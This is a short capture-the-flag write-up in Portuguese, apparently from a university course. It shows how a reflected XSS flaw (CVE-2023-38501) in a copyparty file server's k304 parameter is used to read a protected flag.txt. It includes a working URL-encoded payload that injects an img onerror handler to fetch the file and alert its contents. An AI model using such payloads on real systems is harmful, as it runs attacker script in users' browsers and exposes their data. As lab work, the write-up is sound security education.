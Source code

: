 # XSS

## Reconhecimento

Explorando o servidor encontrámos o ficheiro flag.txt, clicando nele apenas aparecia :

![alt text](screenshots/CTF7_1.png)

Procurando pela razão pela qual não conseguíamos aceder diretamente ao ficheiro utilizámos as Developer Tools para aceder aos pedidos HTTP ao fazer o request http://ctf-fsi.fe.up.pt:5007/flag.txt o que não ajudou pois o servidor retorna o código 200 OK.

![alt text](screenshots/CTF7_2.png)

Usando uma das dicas do enunciado do CTF encontrámos o CVE-2023-38501 relativo à possibilidade de realizar um ataque Reflected XSS nos URL-parameters `?k304=...` e `?setck=...` na versão utilizada do copycat.

![alt text](screenshots/CTF7_3.png)

## Exploit

Assim adaptámos o código para executar a exploit retornando um alerta com o contéudo de um fetch ao flag.txt:

``` 
https://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A<img+src%3Dcopyparty+onerror%3D"fetch('%2Fflag.txt').then(response%20%3D>%20response.text()).then(data%20%3D>%20alert(data))">>
```

![alt text](screenshots/CTF7_4.png)
